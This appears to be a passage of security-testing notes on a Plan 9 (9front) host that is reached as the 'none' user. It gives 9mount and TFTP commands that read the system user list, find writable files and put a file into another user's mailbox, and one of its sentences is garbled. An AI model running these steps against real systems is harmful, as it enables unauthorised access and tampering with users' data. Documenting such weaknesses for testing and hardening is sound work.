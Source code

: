 
**Note on the "none" user.** <br />
This user generally "other" access to the filesystem. Most services run as this user, and it has several limitations (see http://fqa.9front.org/fqa7.html#7.3.3.1). So comprimised services would run in the context of this user. Access to "none" is not really considered a big issue, and in several cases, exposed services can generically access the filesystem. 

**File Server Access with 9mount**

    mkdir fsserve_9fs
    9mount 'tcp!192.168.9.3' fsserve_9fs
    # To unmount, 9umount fsserve_9fs
    cat fsserve_9fs/adm/user
    ...

    # find fsserve_9fs -writable
    fsserve_9fs/mail/box/glenda/mbox
    fsserve_9fs/mail/tmp
    fsserve_9fs/sys/log/auth

**TFTP Access**

    tftp> connect 192.168.9.3
    tftp> get /adm/users
    Received 182 bytes in 0.0 seconds
    tftp> put users /mail/box/glenda/mbox/users
    Sent 193 bytes in 0.1 seconds
    tftp> 

**Password Guessing**
TODO

